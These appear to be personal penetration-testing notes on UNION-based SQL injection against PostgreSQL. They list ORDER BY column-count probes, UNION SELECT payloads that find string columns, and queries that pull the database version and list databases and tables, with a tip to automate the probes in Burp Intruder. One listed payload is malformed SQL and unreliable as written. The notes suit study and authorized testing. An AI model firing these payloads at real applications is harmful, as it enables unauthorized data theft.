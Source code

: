 ```yaml
---
title: PostgreSQL-SQLi-UNION
updated: 2023-11-06 11:18:15Z
created: 2023-10-31 09:57:05Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


## 1. Find number of colums:

`' ORDER BY 1-- -`  
`' ORDER BY 2-- -`  
`' ORDER BY 3-- -`  
`' ORDER BY 4-- -`  
`' ORDER BY 5-- -`  
etc

Send to Burp Intruder for **Sniper** attack  
![912decb8c76f68302c6065f04721c851.png](../../_resources/912decb8c76f68302c6065f04721c851.png)

## 2. Find which columns support strings:

`' UNION SELECT 'a',NULL,NULL,NULL,NULL--`  
`' UNION SELECT NULL,'a',NULL,NULL,NULL--`  
`' UNION SELECT NULL,NULL,'a',NULL,NULL--`  
`' UNION SELECT NULL,NULL,NULL,'a',NULL--`  
`' UNION SELECT NULL,NULL,NULL,NULL,'a'--`  
etc

`' UNION SELECT NULL,version(),NULL,NULL,NULL--  -`

List databases  
`'UNION SELECT NULL,NULL,NULL,NULL, datname FROM pg_database--`  
`'UNION SELECT NULL, datname FROM pg_database,NULL,NULL, NULL--`
`' UNION SELECT tablename FROM pg_tables--`